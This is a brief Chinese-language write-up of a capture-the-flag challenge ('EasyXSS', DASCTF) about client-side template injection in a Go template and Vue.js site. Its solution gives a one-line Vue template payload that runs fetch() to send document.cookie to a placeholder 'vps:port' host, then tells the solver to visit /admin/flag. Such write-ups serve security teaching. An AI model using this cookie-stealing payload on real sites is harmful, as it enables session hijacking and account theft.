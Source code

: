 # DASCTF-CSTI
考点为 CSTI 获取 token (干掉 html 标签 &lt; 头 和 XSS 可能的标签)

## 1. 题目描述

题目: EasyXSS

题干: 

小Miao在学习 GIN 的时候一起学习了 go template 和 vuejs 

于是他写出了这样的一个网站，你能帮帮他吗？

## 2.解法

> PS 可以放出源码 也可以不放出源码
> 不放出源码可以说明 flag 在 /admin/flag 下

payload: 
```js
{{this.constructor.constructor('fetch("http://vps:port/"+(document.cookie))')()}}
```

然后访问 `/admin/flag` 即可

